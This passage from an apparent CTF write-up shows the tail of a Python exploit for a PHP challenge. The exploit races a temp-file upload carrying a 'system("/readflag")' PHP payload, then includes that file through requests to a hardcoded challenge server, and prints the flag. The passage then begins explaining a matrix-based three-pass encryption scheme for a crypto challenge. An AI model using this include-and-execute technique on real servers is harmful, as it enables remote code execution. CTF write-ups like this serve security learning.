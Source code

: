 ```python=


    # get filename
    r2 = requests.get("http://78.47.165.85:8004/.well-known../"+ dirname + "/")
    tmpname = "php" + re.findall(">php(.*)<\/a",r2.text)[0]
    print("[DEBUG]:" + tmpname)

    def job():
        time.sleep(0.26)
        phpcode = 'wtf<?php system("/readflag");?>';
        c.send(phpcode)

    t = threading.Thread(target = job)
    t.start()

    # file_get_contents and include tmp file
    exp_file = dirname + "/" + tmpname
    print("[DEBUG]:"+exp_file)
    r3 = requests.post("http://78.47.165.85:8004/", data={'file':exp_file})
    print(r3.status_code,r3.text)
    if "wtf" in r3.text:
        break

    t.join()
    r.close()
    l.close()
    #r.interactive()
```

flag: `hxp{I don't care what the people say I read my php-src everyday}`

## Crypto

### peerreviewed

As the paper shown, the plaintext $p$ is a point on 2D Cartesian plane, and the encryption follows a 3-pass protocol.

Before the communication begins, Alice secretly decides 2-by-2 matrices $O_A, A$.

$O_A$ is a rotation matrix, and $A$ is a matrix of form `[[a, b], [-b, a]`.

Bob secretly decides $O_B, B$ similarly.

Then, they communicate like following.

* Alice -> Bob: $y_1 = p\times O_A\times A$
* Bob -> Alice: $y_2 = y_1\times O_B\times B$
* Alice -> Bob: $y_3 = y_2\times O_A^{-1}\times A^{-1}$
* Now Bob can obtain $p$ by calculating $y_3\times O_B^{-1}\times B^{-1}$.

The paper said if only $O_A, O_B$ are used, then it'll be not secure enough because they are rotation matrix, and one can easily get $O_A, O_B$ from $y_1, y_2, y_3$. By adding **nonce matrix**  $A, B$ into this encryption system, it'll be secure enough. ***"the only identified way one can compromise the protocol security is by applying brute force attacks"*** , the paper said.
